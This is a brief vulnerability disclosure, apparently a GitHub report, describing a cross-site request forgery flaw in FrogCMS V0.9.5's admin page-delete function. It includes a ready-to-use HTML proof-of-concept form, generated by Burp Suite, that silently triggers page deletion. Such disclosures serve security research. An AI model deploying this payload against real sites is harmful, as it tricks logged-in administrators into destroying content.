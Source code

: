 
target:https://github.com/philippe/FrogCMS
version: V0.9.5

FrogCMS V0.9.5 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component  http://127.0.0.1:80/admin/?/page/delete/10

POC:
```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1:80/admin/?/page/delete/10" method="POST">
      <input type="hidden" name="/page/delete/10" value="" />

      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

